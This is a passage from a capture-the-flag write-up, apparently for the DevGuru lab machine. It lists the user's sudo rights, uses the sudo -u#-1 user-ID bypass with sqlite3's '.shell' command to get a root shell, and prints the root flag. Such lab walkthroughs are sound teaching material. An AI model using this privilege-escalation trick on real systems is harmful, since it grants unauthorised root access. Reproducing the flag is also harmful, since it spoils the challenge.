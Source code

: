 	frank@devguru:~/gitea-repositories/frank/vuln.git$ sudo -l
	sudo -l
	Matching Defaults entries for frank on devguru:
		env_reset, mail_badpass,
		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User frank may run the following commands on devguru:
		(ALL, !root) NOPASSWD: /usr/bin/sqlite3
	```
4. Exploit
	```
	frank@devguru:~/gitea-repositories/frank/vuln.git$ sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/sh'
	<o -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/sh'
	sh: 0: getcwd() failed: No such file or directory
	sh: 0: getcwd() failed: No such file or directory
	whoami
	root
	```
	![](images/Pasted%20image%2020220123045746.png)
5. Flag
	```
	root@devguru:/# cd /root
	cd /root
	root@devguru:/root# ls  
	ls
	msg.txt  root.txt
	root@devguru:/root# cat *
		   Congrats on rooting DevGuru!
	  Contact me via Twitter @zayotic to give feedback!


	96440606fb88aa7497cde5a8e68daf8f
	root@devguru:/root# 
	```
	![](images/Pasted%20image%2020220123045956.png)
	